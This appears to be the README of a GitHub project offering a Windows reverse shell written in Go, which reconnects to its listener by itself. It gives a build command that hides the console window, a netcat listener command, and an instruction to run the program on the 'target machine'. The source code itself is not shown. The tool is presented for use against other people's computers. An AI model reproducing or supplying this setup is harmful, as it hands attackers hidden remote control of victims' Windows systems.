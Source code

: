 # interactiveShell
A fully interactive TCP cmd reverse shell for Windows OS. 
Automatically tries to reconnect to the listener if the connection is lost

# Setup

Compile the project
```
go build -ldflags='-H=windowsgui'
```
Setup an NC listener for your chosen port
```
nc -lvvnp PORT
```
Execute on target machine
